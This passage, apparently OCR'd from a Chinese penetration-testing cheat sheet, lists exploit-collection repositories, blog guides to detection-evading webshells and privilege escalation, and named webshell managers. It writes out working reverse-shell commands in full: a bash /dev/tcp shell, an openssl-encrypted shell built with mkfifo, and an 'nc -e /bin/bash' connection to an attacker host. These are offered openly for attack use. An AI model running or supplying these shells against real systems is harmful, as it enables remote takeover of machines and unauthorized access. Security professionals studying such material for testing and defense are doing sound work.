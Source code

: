 exphub （常见web框架cve利用） https://github.com/zhzyker/exphub

cve，cms，中间件，OA系统漏洞exp合集
https://github.com/mai-lang-chai/Middleware-Vulnerability-detection


### webshell

免杀webshell三篇总结请见：
http://uuzdaisuki.com/2021/05/15/webshell%E5%85%8D%E6%9D%80%E7%A0%94%E7%A9%B6asp%E7%AF%87/
http://uuzdaisuki.com/2021/05/12/webshell%E5%85%8D%E6%9D%80%E7%A0%94%E7%A9%B6jsp%E7%AF%87/
http://uuzdaisuki.com/2021/05/11/webshell%E5%85%8D%E6%9D%80%E7%A0%94%E7%A9%B6php%E7%AF%87/

由命令执行快速寻找webshell路径并写入请见：
http://uuzdaisuki.com/2021/05/20/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E5%86%99webshell%E6%80%BB%E7%BB%93/

菜刀

蚁剑

冰蝎

哥斯拉

普通反弹shell
```
bash -i >& /dev/tcp/HOST/PORT 0>&1
```

加密shell
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.xx.xx:4444 > /tmp/s; rm /tmp/s
```

nc
```
攻击机 nc -lvp 4444
靶机 nc -e /bin/bash xx.xx.xx.xx 4444
```

### 提权

sudo提权  
http://uuzdaisuki.com/2020/02/12/linux%E5%B8%B8%E8%A7%81%E6%8F%90%E6%9D%83%E6%96%B9%E5%BC%8F%E6%80%BB%E7%BB%93/

本地内核提权速查流程
http://uuzdaisuki.com/2021/04/12/windows%E6%8F%90%E6%9D%83%E9%80%9F%E6%9F%A5%E6%B5%81%E7%A8%8B/

提权扫描工具一览
http://uuzdaisuki.com/2021/06/09/%E6%8F%90%E6%9D%83%E6%89%AB%E6%8F%8F%E5%B7%A5%E5%85%B7%E4%B8%80%E8%A7%88/

各类exp  
典型通杀:脏牛CVE-2016-5195
